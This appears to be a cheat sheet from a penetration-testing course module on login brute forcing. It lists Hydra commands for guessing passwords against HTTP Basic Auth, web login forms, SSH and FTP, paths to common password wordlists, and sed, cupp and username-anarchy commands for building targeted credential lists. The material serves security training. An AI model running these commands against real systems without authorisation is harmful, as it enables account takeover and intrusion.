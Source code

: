 # 14. Login Brute Forcing

## **Cheat Sheet**

The cheat sheet is a useful command reference for this module.

## Hydra

| **Command**                                                                                                                            | **Description**                                     |
| -------------------------------------------------------------------------------------------------------------------------------------- | --------------------------------------------------- |
| `hydra -h`                                                                                                                             | hydra help                                          |
| `hydra -C wordlist.txt SERVER_IP -s PORT http-get /`                                                                                   | Basic Auth Brute Force - Combined Wordlist          |
| `hydra -L wordlist.txt -P wordlist.txt -u -f SERVER_IP -s PORT http-get /`                                                             | Basic Auth Brute Force - User/Pass Wordlists        |
| `hydra -l admin -P wordlist.txt -f SERVER_IP -s PORT http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"` | Login Form Brute Force - Static User, Pass Wordlist |
| `hydra -L bill.txt -P william.txt -u -f ssh://SERVER_IP:PORT -t 4`                                                                     | SSH Brute Force - User/Pass Wordlists               |
| `hydra -l m.gates -P rockyou-10.txt ftp://127.0.0.1`                                                                                   | FTP Brute Force - Static User, Pass Wordlist        |

## Wordlists

| **Command**                                                                        | **Description**            |
| ---------------------------------------------------------------------------------- | -------------------------- |
| `/opt/useful/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt` | Default Passwords Wordlist |
| `/opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt`                      | Common Passwords Wordlist  |
| `/opt/useful/SecLists/Usernames/Names/names.txt`                                   | Common Names Wordlist      |

## Misc

| **Command**                                     | **Description**                        |
| ----------------------------------------------- | -------------------------------------- |
| `cupp -i`                                       | Creating Custom Password Wordlist      |
| `sed -ri '/^.{,7}$/d' william.txt`              | Remove Passwords Shorter Than 8        |
| ``sed -ri '/[!-/:-@\[-`\{-~]+/!d' william.txt`` | Remove Passwords With No Special Chars |
| `sed -ri '/[0-9]+/!d' william.txt`              | Remove Passwords With No Numbers       |
| `./username-anarchy Bill Gates > bill.txt`      | Generate Usernames List                |
| `ssh b.gates@SERVER_IP -p PORT`                 | SSH to Server                          |
| `ftp 127.0.0.1`                                 | FTP to Server                          |
| `su - user`                                     | Switch to User                         |
